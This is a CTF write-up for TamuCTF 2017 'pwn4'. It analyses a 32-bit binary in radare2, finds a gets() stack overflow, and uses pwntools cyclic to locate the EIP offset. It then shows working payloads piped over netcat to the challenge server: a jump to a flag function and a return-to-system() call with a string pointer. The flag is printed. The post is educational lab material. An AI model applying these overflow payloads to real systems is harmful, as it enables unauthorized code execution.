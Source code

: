 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-08-11T18:56:18+02:00
description: TamuCTF 2017 - pwn4
tags:
- CTF
- TamuCTF
- 2017
title: "TamuCTF 2017 - Pwn 4"
summary: "Is curious that this specific challenge had more value than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it was way easier."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn4 challenge description](/assets/TamuCTF2017/pwn4/1-pwn4_description.png) 

Is curious that this specific challenge had more value than the previous one ([pwn3](../pwn3/pwn3.md)).  
As we will see below, it was way easier. Lets take a look with r2.

```bash
$ wget -q https://github.com/BlackHoods/BlackHoods.github.io/raw/master/assets/TamuCTF2017/pwn4/pwn4
$ r2 -A -c 'afl' pwn4
```

{{< highlight r2 "hl_lines=28 29 30 31" >}}
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
0x08048330    3 35           sym._init
0x08048353    1 25           fcn.08048353
0x0804836c    1 4            sub.gets_12_36c
0x08048370    1 6            sym.imp.gets
0x08048376    2 10   -> 22   fcn.08048376
0x08048380    1 6            sym.imp.puts
0x08048386    2 10   -> 22   fcn.08048386
0x08048390    1 6            sym.imp.system
0x08048396    2 10   -> 22   fcn.08048396
0x080483a0    1 6            sym.imp.__libc_start_main
0x080483a6    2 10   -> 22   fcn.080483a6
0x080483b0    1 6            sym.imp.setvbuf
0x080483b6    2 10   -> 22   fcn.080483b6
0x080483c0    1 1            sub.__gmon_start___252_3c0
0x080483c1    1 15           fcn.080483c1
0x080483d0    1 33           entry0
0x080483f1    1 1            fcn.080483f1
0x08048400    1 4            sym.__x86.get_pc_thunk.bx
0x08048410    4 43           sym.deregister_tm_clones
0x0804843c    4 57           fcn.0804843c
0x08048475    3 41           fcn.08048475
0x080484a0    8 43   -> 93   sym.frame_dummy
0x080484cb    1 25           sym.flag_func
0x080484e4    1 25           sym.func2
0x080484fd    1 24           sym.func1
0x08048515    1 71           sym.main
0x08048560    4 93           sym.__libc_csu_init
0x080485bd    1 5            fcn.080485bd
0x080485c2    1 22           fcn.080485c2
{{< /highlight >}}

We can see four interesting functions:

{{< highlight r2 "hl_lines=10 12 41 71" >}}
[0x080483d0]> s sym.flag_func; Vp
[0x080484cb 16% 240 pwn4]> pd $r @ sym.flag_func                         
┌ (fcn) sym.flag_func 25
│   sym.flag_func ();
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           ebp = esp                       
│           0x080484ce      83ec08         esp -= 8                     
│           0x080484d1      83ec0c         esp -= 0xc                 
│         ; "/bin/cat flag2.txt"        
│           0x080484d4      68e0850408     push str._bin_cat_flag2.txt
│         ; int system(const char *string) ; sym.imp.system
│           0x080484d9      e8b2feffff     sym.imp.system ()
│           0x080484de      83c410         esp += 0x10
│           0x080484e1      90                                   
│           0x080484e2      c9                                   
└           0x080484e3      c3                                     
┌ (fcn) sym.func2 25                                             
│   sym.func2 ();                                                
│           0x080484e4      55             push ebp              
│           0x080484e5      89e5           ebp = esp             
│           0x080484e7      83ec08         esp -= 8              
│           0x080484ea      83ec0c         esp -= 0xc            
│           0x080484ed      68f3850408     push str.Nothing_to_see_here
│         ; int puts(const char *s)                      
│           0x080484f2      e889feffff     sym.imp.puts ()
│           0x080484f7      83c410         esp += 0x10
│           0x080484fa      90                                               
│           0x080484fb      c9                                   
└           0x080484fc      c3                                   
┌ (fcn) sym.func1 24
│   sym.func1 ();
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x0804854a (sym.main)
│           0x080484fd      55             push ebp
│           0x080484fe      89e5           ebp = esp
│           0x08048500      83ec18         esp -= 0x18
│           0x08048503      83ec0c         esp -= 0xc
│           0x08048506      8d45f4         eax = [local_ch]
│           0x08048509      50             push eax
│         ; char*gets(char *s)
│           0x0804850a      e861feffff     sym.imp.gets ()           
│           0x0804850f      83c410         esp += 0x10
│           0x08048512      90                        
│           0x08048513      c9                        
└           0x08048514      c3                          
┌ (fcn) sym.main 71         
│   sym.main ();
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x080483e7 (entry0)
│           0x08048515      8d4c2404       ecx = [local_4h]
│           0x08048519      83e4f0         esp &= 0xfffffff0
│           0x0804851c      ff71fc         push dword [ecx - 4]
│           0x0804851f      55             push ebp
│           0x08048520      89e5           ebp = esp
│           0x08048522      51             push ecx
│           0x08048523      83ec04         esp -= 4
│           0x08048526      a13ca00408     eax = dword obj.stdout
│           0x0804852b      6a00           push 0
│           0x0804852d      6a00           push 0
│           0x0804852f      6a02           push 2
│           0x08048531      50             push eax
│         ; int setvbuf(FILE*stream, char*buf, int mode, size_t size)
│           0x08048532      e879feffff     sym.imp.setvbuf ()
│           0x08048537      83c410         esp += 0x10
│           0x0804853a      83ec0c         esp -= 0xc
│           0x0804853d      6807860408     push str.I_require_an_input:
│         ; int puts(const char *s)
│           0x08048542      e839feffff     sym.imp.puts ()
│           0x08048547      83c410         esp += 0x10
│           0x0804854a      e8aeffffff     sym.func1 ()
│           0x0804854f      b800000000     eax = 0
│           0x08048554      8b4dfc         ecx = dword [local_4h_2]
│           0x08048557      c9                                     
│           0x08048558      8d61fc         esp = [ecx - 4]
└           0x0804855b      c3                                               
{{< /highlight >}}

> By the way the command `s sym.flag_func; Vp` can be splitted and explained like this:  
> `s sym.flag_func` - set the position of the cursor at the beginning of the function.  
> `V` - Change the visual mode.  
> `p` - change mode view.

Here they are, lets take a look at those functions.

Obviously we should try to execute `sym.flag_func()` function, it seems it will try print a file called `flag2.txt` (strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it by yourself with:
```r2
[0x080484f7]> axt sym.flag_func
```

Then we need to dig a bit more.

1. `sym.func2()` is just printing a message (it even tells you not to waste your time with it). So we can ignore this one.
2. `sym.func1()` is a bit more interesting because it is using the unsecure function `gets()`. If it is called somewhere, we would be able to overwrite the `$eip` register.
3. We dont need to cross our fingers a lot of time because we fastly see that `sym.func1()` is being called from `main()`! yay! :v: .

Lets figure out, how many bytes do we need to overwrite `$eip` register.
```bash
$ pwn cyclic 40 ; To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -R "stdin=\"`pwn cyclic 40`\"" -A -d -c 'dc' pwn4
```
{{< highlight r2 "hl_lines=18 19" >}}
Process with PID 12102 started...
= attach 12102 12102
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /root/pwn4
asm.bits 32
[x] Analyze all flags starting with sym. and entry0 (aa)
TODO: esil-vm not initialized
[Cannot determine xref search boundariesr references (aar)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
ptrace (PT_ATTACH): Operation not permitted
= attach 12102 12102
I require an input:
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x61616165 code=1 ret=0
[0x61616165]>
{{< /highlight >}}

```bash
$ pwn cyclic -l 0x61616165
16
```

So, we can overwrite the `$eip` register writing the next 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (`flag2.txt`) to try this out.

{{< highlight bash "hl_lines=4" >}}
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
I require an input:
This is the flag
Segmentation fault
{{< /highlight >}}

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
I require an input:                                                                              Did you really think it would be that easy?
```

Ouch! that file was just a decoy. There must be a another one named `flag.txt` waiting for us.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to `system()`.
The only thing we need to do is to pass a different argument: `cat flag.txt` instead of `cat flag2.txt`.

If you inspect all the strings of the binary you may find surprise:

{{< highlight r2 "hl_lines=5" >}}
[0x61616165]> iz
vaddr=0x080485e0 paddr=0x000005e0 ordinal=000 sz=19 len=18 section=.rodata type=ascii string=/bin/cat flag2.txt
vaddr=0x080485f3 paddr=0x000005f3 ordinal=001 sz=20 len=19 section=.rodata type=ascii string=Nothing to see here
vaddr=0x08048607 paddr=0x00000607 ordinal=002 sz=20 len=19 section=.rodata type=ascii string=I require an input:
vaddr=0x0804a028 paddr=0x00001028 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
{{< /highlight >}}

As you may know, in order to pass the arguments to `system` they need to be pushed into the stack. In case of a string not its value but its reference (a pointer `0x0804a028` in this case).

Because we can overwrite the stack we can "imitate" a push into it:

1. Instead of starting in the address of `sym.flag_func()` (`0x080484cb`) we will use `system()` one (`0x080484d9`).  
`$ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'`  
2. We need to push the pointer to the string to indicate `system()` which is its argument.  
`$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'`

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
I require an input:
gigem{R3TURN_0R13NT3D_PR0F1T}
```

Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.
